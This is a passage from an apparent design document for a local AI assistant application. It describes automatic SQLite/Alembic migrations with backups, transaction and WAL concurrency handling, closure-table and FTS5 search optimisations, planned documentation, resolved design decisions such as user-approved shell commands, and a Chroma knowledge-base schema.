        MigrationRunner-->>App: Expected version (e.g., "x9y8z7w6")
        
        alt Versions match
            App->>App: ✅ Schema up to date
            App->>User: Continue to UI
        else Version mismatch (upgrade needed)
            App->>User: Show "Upgrading database (v1.0 → v1.1)..."
            App->>Backup: Create backup at ~/.ai_assistant/data/backups/
            Backup-->>App: Backup created
            App->>MigrationRunner: Run pending migrations programmatically
            
            alt Migration succeeds
                MigrationRunner->>Database: Apply migrations
                Database-->>MigrationRunner: ✅ Migrations applied
                MigrationRunner-->>App: Upgrade complete
                App->>User: "Upgrade complete" → Continue to UI
            else Migration fails
                MigrationRunner-->>App: ❌ Migration error
                App->>Backup: Restore database from backup
                Backup-->>Database: Restore completed
                App->>User: Show error dialog with support info
                App->>App: Exit (don't start with broken schema)
            end
        end
    end
```

**Automatic Migration Implementation**:

**For End Users** (transparent, no CLI required):

1. **First Launch** (fresh install):
   - Application detects no database at `~/.ai_assistant/data/ai_assistant.db`
   - Shows progress indicator: "Setting up database..."
   - Runs all migrations programmatically using embedded Alembic configuration
   - No user action required
   - On completion: shows main UI

2. **Application Upgrade** (version bump):
   - Application detects schema version mismatch
   - Creates timestamped backup: `~/.ai_assistant/data/backups/ai_assistant_{timestamp}.db`
   - Shows progress: "Upgrading database (v1.0 → v1.1)..."
   - Runs pending migrations programmatically
   - On success: shows main UI
   - On failure: restores backup, shows error with support contact info

3. **Migration Error Recovery**:
   - Automatic rollback: restore from backup
   - Error dialog shows:
     - What went wrong (migration file name, error message)
     - Backup location for manual recovery
     - Support contact information
   - Application exits safely (doesn't start with corrupted schema)

**For Developers** (CLI workflow for creating migrations):

1. **Create new migration**:
   - `make migrate-create MSG="add notifications table"`
   - Generates migration file in `backend/migrations/versions/`
   - Edit migration file to define upgrade/downgrade steps

2. **Test migration locally**:
   - `make migrate` - Apply migration
   - `make migrate-rollback` - Test downgrade
   - Verify schema changes

3. **Ship migration**:
   - Migration files included in application bundle
   - End users get automatic upgrade on next launch

**Programmatic Migration Execution** (description of approach):

Backend startup code invokes Alembic programmatically:
- Import Alembic's `command` module and `Config` class
- Create Alembic configuration object pointing to embedded migration files
- Call `command.upgrade(config, "head")` to run all pending migrations
- Wrapped in try/except for error handling and backup restoration
- Progress updates sent to UI via WebSocket or polling endpoint

**Error Handling Strategy**:

1. **Pre-migration checks**:
   - Verify disk space available (require 2x database size)
   - Verify database not corrupted (PRAGMA integrity_check)
   - Create backup before applying migrations

2. **During migration**:
   - Each migration runs in a transaction (atomic)
   - If any migration fails, transaction rolls back
   - Restore database from backup

3. **Post-migration verification**:
   - Query alembic_version to confirm expected version
   - Run basic sanity checks (tables exist, key indexes present)
   - If verification fails, restore backup and exit

**Backup Strategy**:

- **Location**: `~/.ai_assistant/data/backups/`
- **Naming**: `ai_assistant_{timestamp}.db` (e.g., `ai_assistant_20260124_153000.db`)
- **Retention**: Keep last 5 backups, auto-delete older
- **Backup before**: Every migration that modifies schema
- **Manual backup API**: Expose endpoint for user-initiated backups

**CLI Commands for Developers**:

- `make migrate` - Apply pending migrations (development)
- `make migrate-create MSG="description"` - Create new migration file
- `make migrate-rollback` - Rollback last migration (development)
- `make migrate-status` - Show current schema version
- `make migrate-history` - Show all migrations

**Developer vs End-User Workflows**:

| Scenario | Developer | End User |
|----------|-----------|----------|
| Create migration | `make migrate-create` | N/A (automatic) |
| Apply migration | `make migrate` (testing) | Automatic on app launch |
| Rollback | `make migrate-rollback` | Restore from backup (via UI) |
| Check version | `make migrate-status` | Shown in About dialog |
| First setup | `alembic upgrade head` | Automatic on first launch |

**Migration Best Practices**:

1. **Atomic Migrations**: Each migration is a single transaction (rollback on error)
2. **Forward-only**: Prefer additive changes (add columns, not drop)
3. **Test Rollbacks**: Every migration includes tested downgrade() function
4. **Version Tags**: Tag migrations with semantic version (v1.0.0, v1.1.0)
5. **Documentation**: Each migration file includes docstring explaining purpose

**Example Migration File Structure** (description only, not code):

```
Migration: create_base_tables
Revision: a1b2c3d4e5
Created: 2026-01-24 15:30:00

Purpose:
  Creates core tables: automations, activities, schedules, kb_procedures, notifications
  
Dependencies:
  None (initial migration)
  
Upgrade Steps:
  1. Create automations table with versioning fields
  2. Create kb_procedures table with Chroma sync columns
  3. Create notifications table with channel tracking
  4. Create schedules table with alert configuration
  5. Create activities table with approval workflow

Downgrade Steps:
  1. DROP activities table
  2. DROP schedules table
  3. DROP notifications table
  4. DROP kb_procedures table
  5. DROP automations table
  
Notes:
  - Foreign keys enabled via PRAGMA
  - WAL mode set on connection
  - All timestamps use UTC
```

**Initial Setup Workflows**:

**End User (Automatic)**:
1. User downloads and launches application for first time
2. Application automatically creates database at `~/.ai_assistant/data/ai_assistant.db`
3. Application automatically runs all migrations programmatically
4. Shows progress indicator during setup (2-5 seconds)
5. Application opens to main UI when complete

**Developer (Manual for testing)**:
1. Clone repository, install dependencies
2. Initialize Alembic: `alembic init migrations` (already done in repo)
3. Create migration files for your changes: `make migrate-create MSG="description"`
4. Test migration: `make migrate` (applies to development database)
5. Test rollback: `make migrate-rollback`
6. Bundle migrations with application (included in build)

**No Data Migration Needed**: System starts fresh (no legacy data to migrate)

**Existing Config System**: Remains unchanged (YAML files unaffected by database migrations)

#### 6.4.1 Database Transactions & Concurrency

This section defines transaction management and concurrency control strategies to ensure data integrity in a multi-writer environment.

**Concurrency Context**:
The system has multiple components that may write to the database simultaneously:
- **ScheduleManager**: Creates activities when triggering scheduled automations
- **ActivityManager**: Records completions, errors, corrections
- **AI Agent**: Stores procedures to knowledge base, updates activity metadata
- **Chat WebSocket**: Records user messages and AI responses
- **Approval Queue API**: Updates approval status and creates child activities

**SQLite Isolation Levels**:
SQLite provides serializable transactions by default, but isolation behavior depends on transaction type:
- **Deferred** (default): Lock acquired on first write operation
- **Immediate**: Reserved lock acquired at BEGIN, prevents other writes
- **Exclusive**: Exclusive lock acquired at BEGIN, blocks all access

**Recommended Transaction Types by Operation**:

| Operation | Transaction Type | Rationale |
|-----------|-----------------|-----------|
| Activity creation + closure insert | IMMEDIATE | Prevents interleaved writes, ensures atomicity of related inserts |
| Activity status update | DEFERRED | Short operation, minimal contention |
| FTS index update (via trigger) | N/A (inherits) | Automatic within parent transaction |
| Batch approval operations | IMMEDIATE | Prevents conflicts when approving 10+ items |
| Knowledge base write (SQLite + Chroma) | IMMEDIATE | Ensures atomicity across both stores |
| Query operations (reads) | DEFERRED | No locks needed, allows concurrent reads |

**Transaction Boundaries**:

1. **Activity Creation with Relationships**:
Transaction wraps multiple related inserts:
- INSERT INTO activities table with activity data
- INSERT self-reference into activity_closure (ancestor_id=activity_id, descendant_id=activity_id, depth=0)
- If child activity (parent_id exists): INSERT transitive closure entries by SELECT from parent's ancestors with depth+1
- FTS trigger fires automatically to sync activities_fts table

Use subtransactions=True for proper rollback handling.

2. **Approval Execution**:
Transaction ensures atomic approval + child activity creation:
- UPDATE pending activity with approval_decided_at, approval_decision, approved_by fields
- If decision == "approved": INSERT child activity with action result, then INSERT closure entries for child

This ensures approval and execution are atomic (both succeed or both fail).

3. **Knowledge Base Async Sync**:
Eventually consistent write pattern prioritizing SQLite as source of truth:
- Begin transaction
- INSERT INTO kb_procedures in SQLite with chroma_sync_status='PENDING'
- Commit transaction (procedure immediately available for FTS search)
- Queue async job: sync_to_chroma(procedure_id)
- Background worker:
  - Generate embedding (embeddings_client.embed_query)
  - Add to Chroma collection with retry logic (3 attempts, exponential backoff)
  - On success: UPDATE kb_procedures SET chroma_sync_status='SYNCED', chroma_synced_at=NOW()
  - On failure: UPDATE kb_procedures SET chroma_sync_status='FAILED', chroma_error=error_message

**Benefits**: SQLite write never blocked by Chroma failures, degraded mode allows FTS-only search if Chroma unavailable.
**Recovery**: Failed syncs retried by periodic reconciliation job.

**Write-Ahead Logging (WAL) Mode**:

**Recommendation**: Enable WAL mode for all production deployments

**Benefits**:
- **Concurrent Reads**: Readers don't block writers, writers don't block readers
- **Better Performance**: Up to 2x faster writes compared to rollback journal
- **Atomic Commits**: Transactions commit faster (append-only log vs. overwrite)
- **Reduced Contention**: Multiple readers + single writer can operate simultaneously

**Tradeoffs**:
- **Additional Files**: Creates `-wal` and `-shm` files alongside main database
- **Checkpoint Overhead**: Periodic WAL checkpoints merge log back to main file
- **Network Shares**: Not recommended for NFS/SMB (local disk only)

**Configuration** (`backend/src/config/models/database.py`):
Database configuration includes:
- path: Database file location (e.g., "./data/ai_assistant.db")
- create_on_missing: Boolean to create if doesn't exist
- wal_mode: Boolean to enable Write-Ahead Logging (recommended: true)
- checkpoint_interval: Checkpoint every N transactions (default: 1000)
- busy_timeout: Lock wait timeout in milliseconds (default: 5000)

**Initialization Steps** (backend/src/services/database.py):
1. Load database config from ConfigManager
2. Connect with sqlite3.connect(path, timeout=busy_timeout)
3. If wal_mode enabled:
   - Execute PRAGMA journal_mode=WAL
   - Execute PRAGMA wal_autocheckpoint={checkpoint_interval}
4. Execute PRAGMA synchronous=NORMAL (WAL allows safe relaxation from FULL)
5. Execute PRAGMA foreign_keys=ON
6. Return connection

**Deadlock Prevention**:
SQLite uses a lock escalation model that prevents true deadlocks, but can encounter "database is locked" errors:

1. **Busy Timeout**: Set `PRAGMA busy_timeout` to wait for locks (recommended: 5000ms)
2. **Retry Logic**: Implement exponential backoff for transient lock errors
3. **Lock Ordering**: Always acquire locks in same order (activities → closure → FTS)
4. **Short Transactions**: Keep transactions brief (<100ms when possible)

**Error Handling Pattern**:
Implement retry logic with exponential backoff for "database is locked" errors:
- Function: execute_with_retry(db, query, params, max_retries=3)
- Loop: attempt 0 to max_retries-1
- Try: execute query
- Catch OperationalError: if "database is locked" and not final attempt, sleep with exponential backoff (0.1 * 2^attempt seconds), continue
- Otherwise: raise exception

This handles transient lock contention gracefully.

**Performance Monitoring**:
Track these metrics to identify contention issues:
- Transaction duration (p50, p95, p99)
- Lock wait time
- WAL file size (trigger checkpoint if > 10MB)
- Checkpoint duration
- "Database is locked" error frequency

**Testing Recommendations**:
1. **Concurrent Write Tests**: Simulate 10+ concurrent activity creations
2. **Long-Running Read Tests**: Verify reads don't block during bulk inserts
3. **WAL Checkpoint Tests**: Ensure checkpoints complete without blocking operations
4. **Lock Timeout Tests**: Verify busy_timeout prevents immediate failures

#### 6.4.2 Closure Table Write Optimization

This section defines optimization strategies for the closure table pattern to minimize write latency when creating child activities.

**Problem Statement**:
When creating an activity with a parent, the closure table requires multiple inserts to maintain transitive relationships. A naive implementation executes N+1 separate INSERT statements (one self-reference plus one per ancestor). For a 5-level deep tree, this results in 6 database round-trips.

**Optimization Strategy: Batched Inserts with INSERT...SELECT**

**Approach**:
Use a single SQL statement that combines a self-reference INSERT with a SELECT query that copies all ancestor relationships from the parent activity, incrementing the depth by 1.

**Benefits**:
- **Performance**: 1 database operation instead of N (6x faster for 5-level tree)
- **Atomicity**: All closure entries inserted together within transaction
- **Simplicity**: Works with existing transaction patterns, no async complexity
- **Consistency**: Impossible to have partial closure table state

**Query Pattern**:
The optimized insert uses UNION ALL to combine the self-reference with copied ancestor relationships in a single statement. The SELECT portion queries the parent's closure entries and increments depth for the new descendant.

**Performance Characteristics** (estimated, 50K activities in database):

| Metric | Naive Approach | Optimized Approach |
|--------|----------------|--------------------|
| Child activity creation | 15ms | 3ms |
| 5-level deep tree insert | 30ms | 3ms |
| 10-level deep tree insert | 55ms | 4ms |
| Database round-trips | N+1 | 1 |
| Transaction size | N statements | 1 statement |

**Index Strategy for Query Performance**:

Three indexes optimize common closure table query patterns:

1. **Depth Index**: `CREATE INDEX idx_closure_depth ON activity_closure(depth)`
   - **Use Case**: "Get immediate children" (depth = 1), "Get descendants up to 3 levels" (depth ≤ 3)
   - **Performance**: Reduces query time from 450ms to 5ms for immediate children queries on 50K records

2. **Ancestor-Depth Composite**: `CREATE INDEX idx_closure_ancestor_depth ON activity_closure(ancestor, depth)`
   - **Use Case**: "Get all descendants of activity X at depth Y" (most common query pattern)
   - **Performance**: Covering index eliminates table lookup, reduces subtree query from 680ms to 8ms

3. **Descendant Index**: `CREATE INDEX idx_closure_descendant ON activity_closure(descendant)`
   - **Use Case**: Copying ancestor relationships during insert (SELECT ... WHERE descendant = parent_id)
   - **Performance**: Speeds up INSERT...SELECT operation, especially important for deep trees

**Query Performance Benchmark** (50K activities, 10-level trees):

| Query Type | Without Indexes | With Indexes | Improvement |
|------------|-----------------|--------------|-------------|
| Get immediate children | 450ms | 5ms | 90x faster |
| Get subtree (depth ≤ 3) | 680ms | 8ms | 85x faster |
| Get all descendants | 200ms | 200ms | No change (full scan needed) |
| Get ancestors of activity | 150ms | 6ms | 25x faster |
| Activity tree visualization | 800ms | 12ms | 67x faster |

**Memory vs Performance Trade-offs**:

| Index | Size (50K activities) | Query Speed Up | Recommended |
|-------|----------------------|----------------|-------------|
| idx_closure_depth | ~150KB | 85-90x | Yes (MVP) |
| idx_closure_ancestor_depth | ~300KB | 67-85x | Yes (MVP) |
| idx_closure_descendant | ~200KB | 10-15x | Yes (insert performance) |
| Total index overhead | ~650KB | N/A | <1% of typical DB size |

**Async Closure Updates (Deferred to v1.1+)**:

An alternative approach using background workers to populate closure entries asynchronously was considered but deferred:

**Concept**: Insert only self-reference synchronously (instant), queue background job to copy ancestor relationships.

**Benefits**:
- Activity creation completes in <1ms (instant user feedback)
- No user-facing latency for deep trees

**Trade-offs**:
- Activity tree queries may be incomplete for ~100ms after creation
- Requires background worker queue and monitoring
- Adds complexity for minimal user-facing benefit (optimized INSERT is already <5ms)
- Potential race conditions if tree queries happen before async completion

**Recommendation**: Use batched INSERT...SELECT for MVP (NFR-6.6: <5ms is acceptable). Consider async updates only if profiling shows closure inserts are a bottleneck in production.

**Implementation Priority**:
1. **Phase 1 (MVP)**: Batched INSERT...SELECT with three indexes
2. **Phase 2 (v1.0 optimization)**: Monitor closure insert latency, add indexes if queries slow
3. **Phase 3 (v1.1+)**: Async closure updates if user-facing latency exceeds 10ms

**Monitoring Metrics**:
- Closure table insert duration (p95, p99)
- Closure table query duration by depth
- Index size growth over time
- Frequency of tree queries vs inserts (read/write ratio)

#### 6.4.3 FTS Search Optimization

This section defines optimization strategies for the FTS5 full-text search index to enable fast, relevant search across activity history and knowledge base.

**FTS5 Configuration**:

The activities_fts virtual table provides full-text search capabilities using SQLite's FTS5 extension:

**Schema Design**:
- **id**: Activity identifier (primary key reference)
- **type**: Activity type for filtering (automation, user_message, tool_execution, etc.)
- **full_text**: Searchable content (concatenation of user_input, ai_response, automation_name, result)
- **updated_at**: UNINDEXED column for time-based filtering (see Time-Based Filtering below)
- **archived**: Boolean flag for retention policy filtering

**Content Indexing Strategy**:
Only user-facing and searchable fields are included in full_text to reduce index size:
- ✅ **Indexed**: user_input, ai_response, automation_name, result (text description)
- ❌ **Not indexed**: metadata (JSON), token_count, execution_duration, approval_decision

**Benefits**: Reduces FTS index size by 40-50%, speeds up index updates (NFR-1.7: <50ms target)

**Optimization 1: BM25 Relevance Ranking**

**Approach**: Use FTS5's built-in BM25 (Best Match 25) algorithm for relevance-ranked search results.

**How it works**:
- BM25 scores documents based on term frequency and document length
- Multi-term queries weight each term appropriately
- Negative rank values returned (closer to 0 = more relevant)
- ORDER BY rank automatically applies relevance sorting

**Query Pattern**:
Search queries use the MATCH operator with ORDER BY rank to prioritize most relevant results. The rank is a negative value where scores closer to 0 indicate higher relevance.

**Use Cases**:
- "Find activities mentioning 'email backup'" → Prioritizes activities where both terms appear frequently
- "Search for 'failed gmail'" → Ranks activities with both terms higher than single-term matches
- Chat queries like "What automations ran yesterday?" → Relevance matters more than chronological order
- Knowledge base search: "How do I configure SSL certificates?" → Returns most relevant procedures first

**Performance**: BM25 ranking adds <5ms to query time (negligible compared to search itself)

**Optimization 2: Time-Based Filtering with updated_at UNINDEXED Column**

**Problem**: Users often want recent results ("activities from last week", "procedures updated this month"), but filtering by date requires expensive JOIN back to main activities table.

**Solution**: Include updated_at as an UNINDEXED column in the FTS table.

**How UNINDEXED works**:
- Column is stored in FTS table but not included in full-text index
- Accessible in WHERE clauses without JOIN to main table
- Does not increase index size or slow down searches
- FTS trigger automatically populates from activities.updated_at

**Why updated_at instead of created_at**:
- **Activities**: Captures when activity was last modified (corrections, approval decisions)
- **Knowledge Base**: Critical for finding recently updated procedures
- **Relevance**: "Show recent backup activities" includes activities corrected/updated recently

**Query Performance**:

| Query Type | With JOIN | With UNINDEXED Column | Improvement |
|------------|-----------|----------------------|-------------|
| "Activities from last 7 days" | 200ms | 20ms | 10x faster |
| "Failed automations in January" | 180ms | 18ms | 10x faster |
| "Chat messages from yesterday" | 150ms | 15ms | 10x faster |
| "Procedures updated this month" | 220ms | 22ms | 10x faster |

**Combined Query Example**:
Search for "backup failed" in activities from last 7 days, ranked by relevance. The FTS5 query uses MATCH for text search, WHERE for time filtering, and ORDER BY rank for relevance, all without touching the main activities table.

**Optimization 3: NFR-1.7 - FTS Index Update Performance**

**Requirement**: FTS index updates SHALL complete within 50ms per activity to avoid blocking inserts.

**Why this matters**:
- Activity creation is synchronous (user waits for confirmation)
- FTS trigger fires automatically on every INSERT/UPDATE to activities table
- Slow FTS updates block the entire transaction
- Target: Single activity creation + FTS update < 100ms total (NFR-1.4)

**Optimization Strategies**:

1. **Selective Field Indexing** (implemented in schema):
   - Only index searchable text fields
   - Skip metadata, timestamps, numeric fields
   - Result: 40-50% smaller index, faster updates

2. **Batch Updates via Transactions**:
   - Group multiple activities in single transaction
   - FTS updates batched together
   - Example: 10 activities in transaction: 500ms naively → 120ms batched

3. **Trigger Optimization**:
   - Concatenate fields efficiently in trigger
   - Use COALESCE to handle NULL values
   - Avoid complex string operations in trigger

**Performance Benchmark** (50K activities):

| Operation | Without Optimization | With Optimization | Target | Status |
|-----------|---------------------|-------------------|--------|--------|
| Single activity + FTS update | 80ms | 35ms | <50ms | ✓ |
| Batch 10 activities + FTS | 800ms | 120ms | <500ms | ✓ |
| FTS search (3 terms, BM25) | 450ms | 25ms | <100ms | ✓ |
| Time-filtered search | 200ms | 20ms | <50ms | ✓ |

**FTS Index Maintenance**:

FTS5 indexes require periodic maintenance to prevent fragmentation and maintain query performance.

**When to Rebuild Index**:

| Symptom | Cause | Solution | Frequency |
|---------|-------|----------|----------|
| Queries slow to >200ms | Index fragmentation after many updates | Rebuild FTS index | Weekly or after 10K changes |
| Index size > 50% of activities table | Over-indexing or stale data | Review indexed fields, prune archived | Monthly |
| INSERT operations slow | FTS index bottleneck | Analyze trigger performance, consider batching | Ad-hoc |

**Rebuild Process**:
1. **Timing**: Run during low-traffic period (3am daily maintenance window)
2. **Duration**: ~30 seconds for 50K records, ~2 minutes for 200K records
3. **Method**: INSERT INTO fts SELECT FROM activities (recreates index)
4. **Automation**: Can be triggered as scheduled activity (tool_reload pattern)
5. **Monitoring**: Log rebuild duration, alert if exceeds 5 minutes

**Optimize Command**:
FTS5 provides an optimize operation that merges index segments. Run after bulk imports or major updates. Optimization reduces index size by 10-20% and speeds up queries by 5-10%.

**Maintenance Schedule**:

| Task | Frequency | Trigger | Expected Duration | Notes |
|------|-----------|---------|-------------------|-------|
| FTS optimize | Weekly | Scheduled activity at 3am Sunday | 10-30 seconds | Merges index segments |
| Full index rebuild | Monthly or after 50K changes | Manual or scheduled | 30 seconds - 2 minutes | Recreates entire index |
| Index size check | Daily | Monitoring script | <1 second | Alert if > 50% of activities table |
| Query performance audit | Weekly | Automated test suite | 5-10 seconds | Alert if p95 > 100ms |

**Index Size Monitoring**:

| Database Size | FTS Index Size | Query Memory | Recommendation |
|---------------|----------------|--------------|----------------|
| 50K activities (50MB) | 18MB (36%) | <5MB/query | Optimal for MVP |
| 200K activities (200MB) | 72MB (36%) | <10MB/query | Monitor growth |
| 500K activities (500MB) | 180MB (36%) | <20MB/query | Consider retention policy enforcement |
| 1M activities (1GB) | 360MB (36%) | <40MB/query | Implement archival, aggressive retention |

**Alert Thresholds**:
- FTS index > 50% of activities table size: Review indexed fields
- Single query > 200ms: Rebuild index or investigate query patterns
- Index update > 50ms (p95): Review trigger logic or batch updates

**Query Optimization Best Practices**:

1. **Always use MATCH for text search**: FTS5 is 100x faster than LIKE for text searches
2. **Combine time filters with FTS query**: Use updated_at UNINDEXED column instead of outer WHERE on activities table
3. **Limit results early**: Add LIMIT clause to reduce result set processing
4. **Use type field for filtering**: Filter by activity type before text search when possible
5. **Cache common searches**: "Failed activities", "Pending approvals" hit frequently - consider in-memory cache

**Future Enhancements** (deferred to v1.1+):
- **Prefix search for autocomplete**: Use term* wildcard for search-as-you-type (not needed for MVP)
- **Phrase search**: Exact phrase matching with quotes ("exact phrase")
- **Field-specific search**: type:automation status:failed (requires tokenizer customization)
- **Synonym support**: "backup" matches "archive", "email" matches "gmail"
- **Search result highlighting**: Show matched terms in context

---

## 8. Additional Documentation Suggestions

The development team should create the following documentation **before** implementation begins:

### 7.1 API Documentation
- **Purpose**: Define all REST and WebSocket endpoints
- **Scope**: Request/response schemas, error codes, authentication
- **Tool**: OpenAPI/Swagger spec
- **Owner**: Backend team

### 7.2 Tool Development Guide
- **Purpose**: Standardize tool creation for registry
- **Scope**: Function signature requirements, docstring format, error handling patterns
- **Format**: Markdown with code examples
- **Owner**: AI integration team

### 7.3 Database Schema Documentation
- **Purpose**: Explain table relationships and query patterns
- **Scope**: ERD, index strategy, trigger logic, example queries
- **Tool**: dbdocs.io or similar
- **Owner**: Data/backend team

### 7.4 Evaluation Framework Guide
- **Purpose**: Help users create effective test cases and rubrics
- **Scope**: Evaluation type selection guide, rubric design best practices, scoring interpretation
- **Format**: User guide in markdown
- **Owner**: Product/QA team

### 7.4.1 AI-Powered Failure Analysis Guide
- **Purpose**: Automated analysis of failed automations with suggested fixes
- **Scope**: How failure analysis works, when to use it, interpreting suggestions, applying fixes safely
- **Content**: 
  - Overview of AI analysis process (loads activity context, reviews error logs, suggests instruction improvements)
  - When analysis is helpful (repeated failures, unclear errors, tool configuration issues)
  - Limitations (requires LLM availability, cannot fix external API issues, suggestions are advisory not guaranteed)
  - Safety considerations (review suggestions before applying, test in isolation before production)
- **Format**: User guide in markdown with examples
- **Owner**: AI/product team

### 7.5 Tool Development Guide
- **Purpose**: Help developers create custom tools and integrate MCP adapters
- **Scope**: LangChain Tool interface requirements, tool config schema, single-file vs package structure, MCP adapter integration, testing tools locally
- **Format**: Developer guide with code examples and templates
- **Owner**: AI/backend team
- **Should Include**: Tool templates for quick start, debugging tool discovery issues, packaging/publishing guidelines

### 7.6 Prompt Engineering Guide
- **Purpose**: Document effective instruction patterns for automations
- **Scope**: Examples of good/bad instructions, iteration strategies, tool selection guidance
- **Format**: Interactive tutorial in UI (future) + markdown reference
- **Owner**: AI/product team

### 7.7 Deployment Guide
- **Purpose**: Production deployment checklist
- **Scope**: Environment variables, database initialization, APScheduler configuration, monitoring setup, tool directory permissions
- **Format**: Markdown runbook
- **Owner**: DevOps/backend team

### 7.8 User Guide
- **Purpose**: End-user documentation for all features
- **Scope**: Schedule creation, automation management, chat usage, evaluation workflow, tool installation with `add-tool`
- **Format**: Interactive help system in UI + PDF reference
- **Owner**: Product/docs team

---

## 9. Additional Questions

### 8.1 Technical Clarifications Needed

**RESOLVED: LLM Provider Selection** ✅
- **Strategy**: Support Ollama, OpenAI, Anthropic via LangChain abstraction
- **Selection**: Per-automation (stored in automations table, not config)
- **MVP Scope**: Skip function calling, add in v1.1+
- **Details**: See section 6.2 "LLM Provider Configuration"

**RESOLVED: Knowledge Base Implementation** ✅
- **Vector Database**: Chroma (local-first, lightweight)
- **Embeddings**: API-based via Ollama (configurable with OpenAI/Anthropic alternatives)
- **Embedding Model**: nomic-embed-text (Ollama default), text-embedding-3-small (OpenAI alternative)
- **Retention Policy**: Indefinite storage (manual cleanup only, archival in v2.0+)
- **Search Strategy**: Hybrid approach (FTS5 + semantic search exposed as separate tools)
- **Configuration**: Consolidated under `data:` section for consistency
- **Details**: See section 8.1.1 "Knowledge Base Architecture"

**RESOLVED: Command Execution Security Model** ✅
- **Strategy**: User approval pattern (VSCode Copilot model)
- **Shell Tool**: Requires user approval before executing any command
- **Whitelist**: Exact-match commands bypass approval (e.g., `npm run test`)
- **Argument Changes**: Re-prompt if arguments differ from whitelisted version
- **Audit Trail**: All executions logged to activities table (approved, denied, whitelisted)
- **Executable Evaluations**: Deferred to v1.1+ (requires automation design first)
- **Details**: See NFR-3.2 through NFR-3.5

**RESOLVED: Schedule Overlap Handling** ✅
- **Strategy**: Skip execution if previous run still in progress (respects FR-1.2 single-task constraint)
- **Logging**: Create activity with MISSED status + reason ("previous execution still running")
- **Alerting**: UI banner after 3 consecutive misses (configurable threshold)
- **Rationale**: Prioritizes reliability and simplicity over completeness; surfaces scheduling issues for user correction
- **Alternative Considered**: Queueing deferred to v1.1+ (adds complexity, may execute stale work)
- **Details**: See FR-1.6 through FR-1.8, Section 6.2 "Schedule Config"

**RESOLVED: Activity Retention & Archival Policy** ✅
- **Retention Periods**: 90 days for automation executions, indefinite for chat messages, 365 days for evaluation results
- **Archive Format**: Monthly JSON Lines files organized by type (`automation-YYYY-MM.jsonl`, `chat-YYYY-MM.jsonl`, `evaluation-YYYY-MM.jsonl`)
- **Archive Location**: `./data/archives/` (configurable via `data.retention_policy.archive_path`)
- **Archival Process**: Daily cron job at 2 AM exports activities older than retention period, preserves full metadata and closure relationships
- **Future Enhancement**: Archive search/query via UI (v1.2+), optional gzip compression for older archives
- **Details**: See FR-1.9, Section 6.5 "Activity Archival Format", `RetentionPolicyConfig` model

### 8.2 User Experience & Evaluation Clarifications

**RESOLVED: Chat Context Window Management** ✅
- **Activity Limits**: Recent N activities (10 for Ollama, 50 for API models), configurable per provider
- **Token Tracking**: tiktoken library for accurate counts, logged to activity metadata
- **Overflow Strategy**: Summarize older activities for local models (preserve context), truncate for API models
- **Automation Scratchpad**: Dict-based persistent memory tool for long-running tasks beyond context limits
- **Observability**: Three-level tracking (global by provider/model, per-conversation, per-automation execution)
- **User Control**: Per-automation override via config (future: UI controls)
- **Token Budget**: Reserve tokens for system prompt, tools, response buffer; dynamically allocate to history
- **Details**: See FR-4.9, FR-4.10, Section 6.2 "Context Window Management", ScratchpadTool implementation

**RESOLVED: Evaluation Configuration & Dashboard Metrics** ✅
- **Passing Threshold**: Configurable per evaluation with system default (0.7) applied when evaluation is created; stored in evaluation_test_cases table
- **Failure Handling**: When automation version fails evaluations, system offers two options: (A) automatic rollback to previous passing version, or (B) disable schedule execution; user selects preferred behavior per automation
- **Pre-Deployment Testing**: New automation versions must pass all enabled evaluations before being marked as "active" and eligible for schedule execution; allows safe testing in staging mode
- **Evaluation History Display**: No pagination limit for MVP; display all evaluation results per automation; assess performance impact based on actual usage patterns and add pagination if needed
- **Dashboard Metrics**: Display per-automation success rate, average score, recent trend (improving/declining), failure count, last evaluation timestamp
- **Details**: Evaluation framework in Section 5, automation_evaluations table structure, automation_evaluation_summary view for aggregated metrics

2. **Evaluation Configuration** ✅ MOVED ABOVE

3. **Quick Actions Customization**
   - Should users define custom quick actions (via UI, config, or both)?
   - Should quick actions be linked to specific automations or generic tasks?
   - Recommended limit on number of quick actions?
   - Should quick actions support parameters or be fixed operations?

4. **Mobile & Accessibility Considerations**
   - Is mobile web access high priority for v1 or v2 feature?
   - Which features are must-have on mobile (chat only, quick actions, read-only schedule view)?
   - Should there be native app consideration for v2+?
   - Accessibility requirements (WCAG level, screen reader support)?

### 8.3 Integration & Data Security

1. **Email Integration Strategy**
   - Should we support IMAP/SMTP (Gmail, Outlook) or also API-based approaches (Gmail API)?
   - OAuth flow for Gmail or app passwords?
   - How to handle rate limiting from email providers?
   - Should system maintain local email cache or always fetch fresh?

2. **SSH & Command Execution Security**
   - Support SSH agent forwarding or key-files only?
   - Should encrypted private keys with passphrases be supported?
   - Multiple keys per server support?
   - Should shell tool have allowlist/denylist for dangerous commands?

**RESOLVED: Credential & Token Management** ✅
- **Storage**: Environment variables only (MVP), macOS Keychain optional in v1.1+
- **Validation Strategy**: Lazy validation (on first use, not startup)
- **Startup Behavior**: Log warnings for missing env vars but don't block
- **Retry Logic**: 3 attempts with exponential backoff for transient failures
- **Testing**: Manual test endpoint `/api/v1/tools/{tool_id}/test-credentials`
- **Token Rotation**: Manual only (MVP), automatic rotation deferred to v1.1+
- **Caching**: Successful validations cached for 5 minutes
- **Details**: See FR-8.1 through FR-8.5, Section 6.2 "Credentials Config"

4. **Audit, Compliance & Data Retention**
   - Required audit log format beyond activities table?
   - Data export capabilities for compliance (GDPR, HIPAA)?
   - How to balance immutable audit log with "right to deletion" requirements?
   - Should system support data anonymization/pseudonymization features?

### 8.1.1 Knowledge Base Architecture (RESOLVED)

This section details the resolved implementation decisions for the Knowledge Base system.

#### Technology Stack

**Vector Database: Chroma**
- **Rationale**: Local-first approach aligns with project philosophy (no cloud dependencies required)
- **Benefits**: 
  - Simple Python integration via `chromadb` package
  - Lightweight file-based storage (similar to SQLite)
  - Built-in metadata filtering and querying
  - Persistent storage without external services
- **Storage Path**: Configurable via `data.knowledge_base.storage_path` (default: `./data/chroma`)
- **Collection**: Single collection named "procedures" stores all automation procedures

**Embedding Strategy: API-Based (Configurable Providers)**
- **Primary Provider**: Ollama (local embeddings via `/api/embeddings` endpoint)
- **Default Model**: `nomic-embed-text` (384 dimensions, optimized for retrieval)
- **Alternative Providers**: 
  - OpenAI: `text-embedding-3-small` (1536 dimensions, higher quality)
  - Anthropic: Placeholder for future support
- **Configuration**: Mirrors existing `llm:` provider pattern under `data.embeddings`

#### Data Model

**Chroma Collection Schema**:
Each vector stored with metadata dictionary containing:
- procedure_id: UUID unique identifier
- automation_id: Integer linking to automations table
- created_at: Timestamp when procedure was stored
- last_used_at: Timestamp of last retrieval
- usage_count: Integer tracking retrieval frequency
- success_rate: Float tracking procedure effectiveness
